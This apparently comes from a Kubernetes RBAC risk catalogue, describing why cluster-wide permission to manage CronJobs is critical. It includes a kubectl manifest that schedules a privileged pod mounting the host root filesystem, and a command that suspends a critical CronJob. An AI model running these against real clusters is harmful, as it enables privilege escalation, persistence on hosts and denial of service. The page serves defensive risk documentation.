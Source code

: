 ```yaml
---
id: 1039
title: "Manage CronJobs cluster-wide (scheduled privileged execution, persistence)"
description: "Permits creating, updating, or deleting CronJobs across all namespaces. CronJobs schedule recurring batch jobs. This is critical as it allows scheduling the execution of pods (potentially privileged) at regular intervals, leading to privilege escalation, persistent access, and tampering."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                               |
| ------------- | ------------------------------------------------------------------------------------------------------------------- |
| ID            | 1039                                                                                                                |
| Name          | Manage CronJobs cluster-wide (scheduled privileged execution, persistence)                                          |
| Risk Category | Elevation of Privilege                                                                                              |
| Risk Level    | {{< risk Critical >}}                                                                                               |
| Role Type     | ClusterRole                                                                                                         |
| API Groups    | batch                                                                                                               |
| Resources     | cronjobs                                                                                                            |
| Verbs         | create, update, patch, delete                                                                                       |
| Tags          | {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Permits creating, updating, or deleting CronJobs across all namespaces. CronJobs schedule recurring batch jobs. This is critical as it allows scheduling the execution of pods (potentially privileged) at regular intervals, leading to privilege escalation, persistent access, and tampering.

## Abuse Scenarios

1. Create a new CronJob that schedules a privileged pod to run periodically.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: batch/v1
kind: CronJob
metadata:
  name: privileged-cronjob
spec:
  schedule: "*/1 * * * *" # Every minute
  jobTemplate:
    spec:
      template:
        spec:
          hostNetwork: true
          hostPID: true
          containers:
          - name: attacker
            image: busybox
            command: ["/bin/sh", "-c", "echo 'Pwned!' > /host/pwned.txt"]
            securityContext:
              privileged: true
            volumeMounts:
            - mountPath: /host
              name: host-root
          volumes:
          - name: host-root
            hostPath:
              path: /
          restartPolicy: OnFailure
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Suspend a critical CronJob, preventing scheduled tasks from running (DoS).

```bash
kubectl patch cronjob <cronjob-name> -n <namespace> -p '{"spec" : {"suspend" : true}}'
# Example: kubectl patch cronjob backup-db -n production -p '{"spec" : {"suspend" : true}}'

```
